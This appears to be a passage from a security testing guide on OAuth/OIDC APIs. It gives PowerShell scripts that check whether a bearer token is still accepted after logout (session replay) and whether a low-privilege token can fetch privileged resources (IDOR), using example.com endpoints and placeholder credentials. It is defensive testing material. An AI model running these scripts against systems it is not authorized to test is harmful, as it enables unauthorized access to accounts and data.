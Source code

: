 Session replay is a simple test to ensure that the OAuth/OIDC logout endpoint is implemented correctly, and doesn't allow for an expired token to be used again. This is an important defense-in-depth measure as it ensures that tokens, should they be cached, cannot be compromised in any number of ways including (but not limited to):

* Physical Access
* Browser Exploits
* Trojans

#### Exploitation

This can be performed with the following Powershell invocation (again requiring your own tuning), which gets a token, makes an authenticated request for privileged resources, hits the expiration endpoint, and then again attempts to make the same authenticated request:

```bash
Write-Host "Retrieving Bearer Token..." -ForegroundColor red -BackgroundColor blue
$bearerToken = Get-Bearer -TokenUri "https://example.com/protocol/openid-connect/token"`
-Body "client_id=example-client&username=user@skiddie.com&password=Password123!&grant_type=password&scope=openid"
#$bearerToken

Write-Host "Making Request.." -ForegroundColor red -BackgroundColor blue
$response = Get-AuthenticatedResource -TargetUri "https://example.com/userprofiles/?first=0&max=11"`
    -Token $bearerToken
#$response | Select-Object -ExpandProperty RawContent
$response.StatusCode


Write-Host "Initiating Token Expiration.." -ForegroundColor red -BackgroundColor blue
$response = Get-AuthenticatedResource -TargetUri "https://example.com/protocol/openid-connect/logout?redirect_uri=https%3A%2F%2Fexample.com%2F%23%2Fusers"`
    -Token $bearerToken
#$response | Select-Object -ExpandProperty RawContent
$response.StatusCode

Write-Host "Making Request with Expired Bearer Token.." -ForegroundColor red -BackgroundColor blue
$response = Get-AuthenticatedResource -TargetUri "https://example.com/userprofiles/?first=0&max=11"`
    -Token $bearerToken
#$response.StatusCode
$response | Select-Object -ExpandProperty RawContent
```

### IDOR

Another easy win is to test for IDOR, in which a user is able to escalate his or her privileges by simply requesting a high-privilege resource with a low-privilege token context.

#### Exploitation

```bash
Write-Host "Retrieving Bearer Token..." -ForegroundColor red -BackgroundColor blue
$bearerToken = Get-Bearer -TokenUri "https://example.com/protocol/openid-connect/token"`
-Body "client_id=example-client&username=low_priv_user@skiddie.com&password=Password123!&grant_type=password&scope=openid"
#$bearerToken

Write-Host "Making High Privilege Request.." -ForegroundColor red -BackgroundColor blue
$response = Get-AuthenticatedResource -TargetUri "https://example.com/authenticatedResource"`
    -Token $bearerToken
#$response | Select-Object -ExpandProperty RawContent
$response.StatusCode
```
